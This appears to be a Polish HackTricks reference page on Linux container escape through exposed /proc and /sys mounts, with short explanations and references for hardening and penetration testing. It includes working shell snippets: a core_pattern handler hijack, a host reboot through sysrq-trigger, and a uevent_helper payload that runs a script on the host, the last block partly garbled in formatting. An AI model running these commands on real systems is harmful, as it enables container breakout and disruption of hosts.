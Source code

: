 # Wrażliwe montaże

{{#include ../../../../banners/hacktricks-training.md}}

Ekspozycja `/proc` i `/sys` bez odpowiedniej izolacji przestrzeni nazw wprowadza znaczące ryzyko bezpieczeństwa, w tym powiększenie powierzchni ataku i ujawnienie informacji. Te katalogi zawierają wrażliwe pliki, które, jeśli są źle skonfigurowane lub dostępne dla nieautoryzowanego użytkownika, mogą prowadzić do ucieczki z kontenera, modyfikacji hosta lub dostarczenia informacji wspomagających dalsze ataki. Na przykład, niewłaściwe zamontowanie `-v /proc:/host/proc` może obejść ochronę AppArmor z powodu swojej opartej na ścieżkach natury, pozostawiając `/host/proc` bez ochrony.

**Szczegóły dotyczące każdej potencjalnej luki można znaleźć w** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Luki w procfs

### `/proc/sys`

Ten katalog pozwala na modyfikację zmiennych jądra, zazwyczaj za pomocą `sysctl(2)`, i zawiera kilka subkatalogów budzących niepokój:

#### **`/proc/sys/kernel/core_pattern`**

- Opisany w [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Umożliwia zdefiniowanie programu do wykonania przy generowaniu pliku core, z pierwszymi 128 bajtami jako argumentami. Może to prowadzić do wykonania kodu, jeśli plik zaczyna się od rury `|`.
- **Przykład testowania i eksploatacji**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Tak # Test dostępu do zapisu
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Ustaw niestandardowy handler
sleep 5 && ./crash & # Wywołaj handler
```

#### **`/proc/sys/kernel/modprobe`**

- Szczegóły w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Zawiera ścieżkę do ładowarki modułów jądra, wywoływanej do ładowania modułów jądra.
- **Przykład sprawdzania dostępu**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Sprawdź dostęp do modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

- Odniesienie w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Globalny flag, który kontroluje, czy jądro panikuje, czy wywołuje OOM killera, gdy występuje warunek OOM.

#### **`/proc/sys/fs`**

- Zgodnie z [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), zawiera opcje i informacje o systemie plików.
- Dostęp do zapisu może umożliwić różne ataki typu denial-of-service przeciwko hostowi.

#### **`/proc/sys/fs/binfmt_misc`**

- Umożliwia rejestrowanie interpreterów dla nienatywnych formatów binarnych na podstawie ich magicznego numeru.
- Może prowadzić do eskalacji uprawnień lub dostępu do powłoki root, jeśli `/proc/sys/fs/binfmt_misc/register` jest zapisywalny.
- Istotny exploit i wyjaśnienie:
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- Szczegółowy samouczek: [Link do wideo](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Inne w `/proc`

#### **`/proc/config.gz`**

- Może ujawniać konfigurację jądra, jeśli `CONFIG_IKCONFIG_PROC` jest włączone.
- Przydatne dla atakujących do identyfikacji luk w działającym jądrze.

#### **`/proc/sysrq-trigger`**

- Umożliwia wywoływanie poleceń Sysrq, co może powodować natychmiastowe ponowne uruchomienia systemu lub inne krytyczne działania.
- **Przykład ponownego uruchamiania hosta**:

```bash
echo b > /proc/sysrq-trigger # Ponownie uruchamia hosta
```

#### **`/proc/kmsg`**

- Ujawnia komunikaty z bufora pierścieniowego jądra.
- Może wspierać exploity jądra, wycieki adresów i dostarczać wrażliwe informacje o systemie.

#### **`/proc/kallsyms`**

- Wymienia eksportowane symbole jądra i ich adresy.
- Kluczowe dla rozwoju exploitów jądra, szczególnie w celu pokonania KASLR.
- Informacje o adresach są ograniczone, gdy `kptr_restrict` jest ustawione na `1` lub `2`.
- Szczegóły w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Interfejs z urządzeniem pamięci jądra `/dev/mem`.
- Historycznie podatny na ataki eskalacji uprawnień.
- Więcej w [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Reprezentuje fizyczną pamięć systemu w formacie ELF core.
- Odczyt może ujawniać zawartość pamięci systemu hosta i innych kontenerów.
- Duży rozmiar pliku może prowadzić do problemów z odczytem lub awarii oprogramowania.
- Szczegółowe użycie w [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternatywny interfejs dla `/dev/kmem`, reprezentujący wirtualną pamięć jądra.
- Umożliwia odczyt i zapis, a zatem bezpośrednią modyfikację pamięci jądra.

#### **`/proc/mem`**

- Alternatywny interfejs dla `/dev/mem`, reprezentujący pamięć fizyczną.
- Umożliwia odczyt i zapis, modyfikacja całej pamięci wymaga rozwiązania adresów wirtualnych na fizyczne.

#### **`/proc/sched_debug`**

- Zwraca informacje o planowaniu procesów, omijając zabezpieczenia przestrzeni nazw PID.
- Ujawnia nazwy procesów, identyfikatory i identyfikatory cgroup.

#### **`/proc/[pid]/mountinfo`**

- Dostarcza informacje o punktach montowania w przestrzeni nazw montowania procesu.
- Ujawnia lokalizację `rootfs` kontenera lub obrazu.

### Luki w `/sys`

#### **`/sys/kernel/uevent_helper`**

- Używane do obsługi `uevent` urządzeń jądra.
- Zapis do `/sys/kernel/uevent_helper` może wykonywać dowolne skrypty po wyzwoleniu `uevent`.
- **Przykład eksploatacji**: %%%bash

#### Tworzy ładunek

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Znajduje ścieżkę hosta z montażu OverlayFS dla kontenera

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### Ustawia uevent_helper na złośliwego pomocnika

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### Wyzwala uevent

echo change > /sys/class/mem/null/uevent

#### Odczytuje wynik

cat /output %%%

#### **`/sys/class/thermal`**

- Kontroluje ustawienia temperatury, potencjalnie powodując ataki DoS lub fizyczne uszkodzenia.

#### **`/sys/kernel/vmcoreinfo`**

- Ujawnia adresy jądra, potencjalnie kompromitując KASLR.

#### **`/sys/kernel/security`**

- Zawiera interfejs `securityfs`, umożliwiający konfigurację modułów bezpieczeństwa Linux, takich jak AppArmor.
- Dostęp może umożliwić kontenerowi wyłączenie swojego systemu MAC.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

- Ujawnia interfejsy do interakcji z zmiennymi EFI w NVRAM.
- Błędna konfiguracja lub eksploatacja mogą prowadzić do zablokowanych laptopów lub nieuruchamialnych maszyn hosta.

#### **`/sys/kernel/debug`**

- `debugfs` oferuje interfejs debugowania "bez zasad" do jądra.
- Historia problemów z bezpieczeństwem z powodu swojej nieograniczonej natury.

### Odniesienia

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Zrozumienie i wzmacnianie kontenerów Linux](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Wykorzystywanie uprzywilejowanych i nieuprzywilejowanych kontenerów Linux](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
